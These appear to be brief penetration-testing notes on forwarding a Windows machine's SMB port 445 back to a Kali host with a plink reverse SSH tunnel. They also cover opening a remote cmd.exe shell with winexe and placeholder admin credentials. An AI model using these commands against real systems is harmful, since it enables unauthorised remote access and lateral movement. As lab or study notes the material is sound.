

In the cases we need to forward a prot on Kali to the internal port on windows
winexe -U "admin%password" //<windows ip> cmd.exe
if can't access, try this port forwarding
plink.exe
[kali linux]
/etc/ssh/sshd_config

service ssh restart
[windows]
.\plink.exe root@<kali linux ip> -R 445:127.0.0.1:445

try ssh tunnel if plink can't
retry access port 445
winexe -U "admin%password" //127.0.0.1 cmd.exe